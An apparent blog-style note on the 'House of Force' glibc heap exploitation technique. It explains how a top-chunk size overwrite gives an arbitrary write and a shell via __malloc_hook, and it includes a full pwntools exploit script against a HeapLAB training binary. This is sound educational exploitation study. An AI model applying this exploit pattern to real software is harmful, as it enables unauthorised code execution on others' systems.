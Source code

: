 ```yaml
---
title: "House of Force"
tags: [Binary Exploitation, Heap]
excerpt: "House of Force"
layout: single
classes: wide
--- 
```


Exploiting Top Chunk header to gain nearly-arbitrary write primitive.

## Requirements
* Control of top chunk size, usually through heap overflow
* Full control of size of allocated chunks

## Process
### Arbitrary Write Primitive
* Overwrite size of top chunk to `0xffffffffffffffff`
* Allocate chunk with size of `offset`, using `malloc()`
    * If `target < top_chunk`: `offset = top_chunk - target + allocated_chunks_size`, and offset is negative
    * If `target > top_chunk`: `offset = target - top_chunk - allocated_chunks_size`
* Allocate new chunk, this chunk will be created at `target`

### Gaining RCE using ret2libc
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `system()`
* Call `malloc(/bin/sh)`

## Example: HeapLAB House of Force
```python
from pwn import *

config = {
    "elf" : "./house_of_force",
    "libc" : "./libc-2.28.so",
    "ld" : "./ld.so.2",
}

def malloc(size, data):
    sla('>', '1')
    sla('size:', str(size))
    sla('data:', data)

def exploit(p):
    # Get addresses
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc_base, etc...
    libc.address = puts - libc.symbols['puts']
    malloc_hook = libc.symbols['__malloc_hook']
    system = libc.symbols['system']
    binsh = libc.search('/bin/sh\x00').next()

    lg('heap_addr: ' + hex(heap_addr))
    lg('malloc_hook: ' + hex(malloc_hook))
    lg('system: ' + hex(system))
    lg('binsh: ' + hex(binsh))
    
    # House of Force: Overwrite top_chunk size
    malloc(24, '/bin/sh\x00'.ljust(24, "\x00") + p64(0xffffffffffffffff))
    
    """
    # Overwrite target with "OVERWRIT"
    target = elf.symbols['target']
    top_chunk = heap_addr + 0x20
    offset = top_chunk - target + 32
    ru('>')
    malloc(-offset, p64(0xdeadbeef))
    malloc(16, 'OVERWRIT')
    sla('>', '2')
    """

    # Pop shell with ret2libc by overwriting __malloc_hook with system() 
    top_chunk = heap_addr + 0x20
    offset = malloc_hook - top_chunk - 32
    ru('>')
    malloc(offset, "Y") 
    malloc(24, p64(system))
    sla('>', '1')
    sla('size:', str(binsh))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = ELF(config["libc"])

    p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
